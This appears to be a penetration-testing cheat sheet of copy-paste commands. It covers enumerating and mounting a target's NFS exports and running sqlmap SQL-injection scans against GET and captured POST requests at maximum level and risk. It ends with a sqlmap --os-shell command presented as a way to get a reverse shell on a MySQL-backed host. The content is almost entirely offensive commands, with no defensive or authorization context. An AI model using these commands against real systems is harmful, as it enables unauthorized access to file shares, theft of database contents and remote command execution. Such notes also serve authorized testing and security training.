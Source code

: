 ***

## NFS

### Show mountable drives
```bash
showmount -e 192.168.0.1
```

### Mount Drive
```bash
mkdir mpt
mount -t nfs -o soft 192.168.0.1:/backup mpt/
```

***

## WebApp Paths

https://github.com/pwnwiki/webappdefaultsdb/blob/master/README.md

***

## SQLMAP

### Get Request

### Test All (Default Settings)
```bash
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch
```

#### Test All (Default Settings, High Stress)
```bash
sqlmap -u "http://192.168.0.1/database/inject.php?q=user" --batch --level=5 --risk=3
```

### Post Request (Capture with BURP)

#### Test All (Default Settings)

```bash
sqlmap --all -r post_request.txt --batch 
```
#### Test All (Default Settings, High Stress)
```bash
sqlmap --all -r post_request.txt --batch --level=5 --risk=3
```

#### Get A Reverse Shell (MySQL)
```bash
sqlmap -r post_request.txt --dbms "mysql" --os-shell
```
